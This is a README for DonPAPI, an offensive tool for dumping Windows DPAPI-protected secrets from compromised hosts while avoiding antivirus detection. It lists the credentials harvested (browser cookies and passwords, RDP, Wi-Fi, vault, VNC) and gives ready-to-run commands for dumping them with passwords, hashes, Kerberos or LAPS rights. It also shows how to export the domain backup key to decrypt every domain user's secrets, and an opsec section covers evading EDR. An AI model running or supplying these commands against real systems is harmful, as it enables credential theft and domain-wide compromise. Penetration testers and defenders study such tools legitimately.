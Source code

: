 # DonPAPI
Dumping revelant information on compromised targets without AV detection
![alt text](https://github.com/login-securite/DonPAPI/blob/main/res/Logo%20DonPapi.png)


## DPAPI dumping
Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :
- User password
- Domaine DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Curently gathered info
- Windows credentials (Taskscheduled credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wifi key
- Intenet explorer Credentials
- Chrome cookies & credentials
- Firefox cookies & credentials
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance
- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :
- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain cleartext login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract Masterkey's hash value for every user profiles (masterkeys beeing protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin's personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

## Examples

Dump all secrets of the target machine with an admin account : 

```bash
DonPAPI.py domain/user:passw0rd@target
```

Using user's hash

```bash
DonPAPI.py --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k) and local auth (-local_auth)

```bash
DonPAPI.py -k domain/user@target
DonPAPI.py -local_auth user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI.py -laps domain/user:passw0rd@target
```

It is also possible to provide the tool with a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user2:pass2
...
```

```bash
DonPAPI.py -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool. 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

This backup key (pvk file) can then be used to dump all domain user's secrets!

`python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

Target can be an IP, IP range, CIDR, file containing list targets (one per line)


## Opsec consideration
The RemoteOps part can be spoted by some EDR. It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 

## Installation 
```
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python3 -m pip install -r requirements.txt
python3 DonPAPI.py
```

## Credits
All the credits goes to these great guys for doing the hard research & coding : 
- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shity code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo
- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Extract windows Certificates
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```
